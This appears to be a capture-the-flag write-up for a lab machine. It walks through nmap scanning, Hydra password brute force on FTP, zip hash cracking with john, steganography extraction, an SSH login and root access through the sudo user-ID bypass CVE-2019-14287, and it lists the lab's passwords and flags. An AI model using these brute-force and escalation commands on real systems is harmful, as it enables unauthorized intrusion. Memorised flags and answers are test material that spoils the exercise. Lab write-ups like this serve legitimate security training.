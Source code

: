 
## Enumerate

```
┌──(root㉿kali)-[~]
└─# nmap -p- 10.10.145.207 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-13 14:47 UTC
Nmap scan report for ip-10-10-145-207.eu-west-1.compute.internal (10.10.145.207)
Host is up (0.0014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:38:26:CB:75:45 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.80 seconds
```

```
└─# nmap -p 21,22,80 -sVC 10.10.145.207 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-13 14:52 UTC
Nmap scan report for ip-10-10-145-207.eu-west-1.compute.internal (10.10.145.207)
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:38:26:CB:75:45 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Questions

How many open ports?
```
3
```

How you redirect yourself to a secret page?
```
user-agent
```

What is the agent name?
```
chris
```
## Hash Cracking and Brute Force 

Utilize hydra to brute force the password of the ftp server with the username chris.
The password found was crystal
```
└─# hydra -l chris -P 10-million-password-list-top-1000.txt 10.10.145.207 ftp 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-13 15:24:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000 login tries (l:1/p:1000), ~63 tries per task
[DATA] attacking ftp://10.10.145.207:21/
[21][ftp] host: 10.10.145.207   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-13 15:25:00
```

Attempt to login to the FTP Server with the new found credentials
```
ftp 10.10.35.121
username: chris
password: crystal
```

List out the directory for the FTP server 
Download all files to the local machine from the ftp server
If the  get * command doesn't work to retrieve all of the files, use the command on the individual files. 
```
dir
get *
```

Extract any other files from the png file using the binwalk command. 
Navigate into the newly created directory
List out the details for each file that was created
The 8702 file contains a hidden text file called To_agentR.txt that's compressed. 
```
binwalk --dd ".*" cutie.png
cd _cutie.png.extracted/
file *

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive

```

Using the zip2john command we can turn the zipped file into a hash.
```
root@ip-10-10-192-41:~/_cutie.png.extracted# zip2john 8702  > hash.txt 
```

This hash file allows us to use the John command to  crack the hidden password. 
John automatically detects that there's a hashed password inside of the hash.txt file
```
root@ip-10-10-127-181:~/_cutie.png.extracted# cat hash.txt 
8702/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:8702:8702

root@ip-10-10-127-181:~/_cutie.png.extracted# john hash.txt 
Warning: detected hash type "ZIP", but the string is also recognized as "ZIP-opencl"
Use the "--format=ZIP-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/john/password.lst
alien            (8702/To_agentR.txt)
1g 0:00:00:02 DONE 2/3 (2024-11-13 23:01) 0.4739g/s 13918p/s 13918c/s 13918C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Unzip the 8702 zip file with the password found above
```
7z x 8702 
password: alien
```

We can now read the text file that was zipped
```
Agent C,
We need to send the picture to 'QXJlYTUx' as soon as possible!
By,
Agent R

```

The string 'QXJlYTUx' is nonsense, but when converting it from base64 we're able to get readable text
```
echo QXJlYTUx | base64 -d
Area51
```

When using steghide on the cutie.png file we can extract another message
This gives us text with the password "hackerrules!"
```
root@ip-10-10-127-181:~# steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".

root@ip-10-10-127-181:~# cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
#### Questions

FTP password
```
crystal
```

Zip file password
```
alien
```

steg password
```
Area51
```

Who is the other agent (in full name)?
```
james
```

SSH password
```
hackerrules!
```

## Capture the Flag 



SSH into the target machine with the username james and the password hackerrules!
```
ssh james@10.10.215.245
password: hackerrules!
```

```
cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

There's an alien image on the server. 
If you were to copy the image to the local computer an do a reverse image search articles with the headline "Roswell Alien Autopsy" should appear. 
This is the answer to one of the flags. 
#### Questions 


What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7
```

What is the incident of the photo called?
```
Roswell alien autopsy
```
## Privilege Escalation

```
sudo -l 
sudo -u#-1 /bin/bash
```

CVE number for the escalation 

(Format: CVE-xxxx-xxxx)
```
CVE-2019–14287
```
What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
```
(Bonus) Who is Agent R?
```
DesKel
```


